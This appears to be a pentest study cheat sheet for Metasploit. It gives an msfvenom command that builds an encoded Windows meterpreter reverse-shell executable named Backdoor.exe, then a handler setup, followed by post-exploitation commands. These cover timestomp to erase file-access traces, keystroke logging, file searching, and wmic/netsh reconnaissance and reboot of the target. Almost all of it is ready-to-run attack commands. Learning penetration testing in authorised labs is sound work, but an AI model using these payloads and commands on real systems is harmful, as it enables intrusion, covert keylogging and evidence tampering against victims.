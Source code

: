 # Metasploit

Metasploit Framework is a tool for developing and executing exploit code against a remote target machine. Ruby based modular pentest platform that enable to write, test, and execute exploit code. Contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. Meterpreter is a Metasploit attack payload that provide an interactive shell that can be used to explore the target machine and execute code.

***

## Create the app PE&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Backdoor.exe
```

***

## Set up listener in metasploit

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST VALUE
show options
exploit -j -z # background job
```

***

## If the session catch

```
sessions -i 2    # connect to sessions 2
getuid           # get uid/user
sysinfo          # check the system info, OS, domain
ifconfig         # displays the victim machine's IP address, MAC address, and other information
pwd              # view current working directory  
ls               # list the files in the current working directories
cat [filename]   # read the content of a text file

```

***

## MACE

Modified, Accessed, Created, Entry (**MACE**) to change attributes of a file. While performing post-exploitation activities, an attacker tries to access files to read their contents. Upon doing so, the MACE attributes immediately change, which indicates to the file user or owner that someone has read or modified the information.

### Display attributes

To leave no trace of these MACE attributes, use the **timestomp** command to change the attributes as you wish after accessing a file.

```
timestomp [file] -v     # display the created, accessed, modified, and entry modified time
```

### Change attributes

```
timestomp [file] -m "DD/MM/YYYY HH:MM:SS"
```

> **-m**: Modified value
>
> **-a**: Accessed value
>
> **-c**: Created value
>
> **-e**: Entry value

***

## search

Can use **search** command to help locate files on the target machine. This type of cmd is capable of searching through the whole system or can be limited to specific folders.

```
search -f [file]
```

***

## Key-logging

Capture all keyboard input from the target system.

```
keyscan_start
```

dumps all captured keystrokes.

```
keyscan_dump
```

***

## idletime

Display the amount of time for which the user has been idle on the remote system.

```
idletime
```

***



## Operate in shell

### Windows

#### Retrieve the directory names with hidden attribute

```
dir /a:h
```

#### List all available services

```
sc queryex type=service state=all
```

#### List details about specific service, display current firewall state

```
netsh firewall show state
```

#### View current firewall settings in the target system

```
netsh firewall show config
```

#### View the details of installed software

```
wmic /node:"" product get name,version,vendor
```

#### Retrieve the processor's details

```
wmic cpu get
```

#### Retrieve login names and SIDs of the users

```
wmic useraccount get name,sid
```

#### Reboot the target system

```
wmic os where Primary='TRUE' reboot
```



<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>



